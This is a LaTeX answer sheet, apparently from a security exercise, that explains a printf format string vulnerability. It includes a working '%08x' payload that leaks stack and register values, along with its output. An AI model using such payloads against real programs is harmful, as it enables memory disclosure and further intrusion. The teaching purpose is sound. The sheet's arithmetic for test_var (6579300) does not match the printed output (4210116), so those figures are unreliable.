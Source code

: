 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\begin{document}
\begin{correction}

\begin{enumerate}
\item \textbf{Reading the stack with format specifiers:}

\medskip
\textbf{Understanding the vulnerability:}

The program has two calls to \texttt{printf} with user input:
\begin{itemize}
\item \texttt{printf("\%s", texte)} -- \textbf{Safe}: the format string is controlled by the programmer, \texttt{texte} is treated as data.
\item \texttt{printf(texte)} -- \textbf{Dangerous}: the user's input IS the format string. If the user includes format specifiers like \texttt{\%x} or \texttt{\%lx}, \texttt{printf} will consume values from the registers and then from the stack.
\end{itemize}

\medskip
\textbf{Normal usage:}
\begin{lstlisting}[language=bash,numbers=none]
$ ./a.out "Hello World" 42
La bonne facon d'afficher des entrees utilisateurs:
Hello World
La mauvaise facon d'afficher des entrees utilisateurs:
Hello World
[*] test_var @ 0x404030 = 4210116, 00646464
[*] adresse de d=0x7fffffffdd08, valeur de d=0x000000000000002a
[*] adresse de texte=0x7fffffffdb00
\end{lstlisting}

Both outputs are identical. Note that \texttt{test\_var} = $100 \times 256^2 + 100 \times 256 + 100$ = $6553600 + 25600 + 100$ = $6579300$... Actually, let us compute: $100 \times 65536 + 100 \times 256 + 100 = 6553600 + 25600 + 100 = 6579300$. In hex: \texttt{0x646464}.

\medskip
\textbf{Exploiting the format string to read the stack:}
\begin{lstlisting}[language=bash,numbers=none]
$ ./a.out "%08x.%08x.%08x.%08x.%08x.%08x" 42
La bonne facon d'afficher des entrees utilisateurs:
%08x.%08x.%08x.%08x.%08x.%08x
La mauvaise facon d'afficher des entrees utilisateurs:
ffffe1b8.00000000.00000000.78383025.3830252e.30252e78
\end{lstlisting}

The safe version prints the format string literally. The vulnerable version interprets each \texttt{\%08x} as a request to read a value. On x86-64, the first few format arguments come from registers (\texttt{rsi}, \texttt{rdx}, \texttt{rcx}, \texttt{r8}, \texttt{r9}), then subsequent ones come from the stack.


\end{enumerate}
\end{correction}
\end{document}
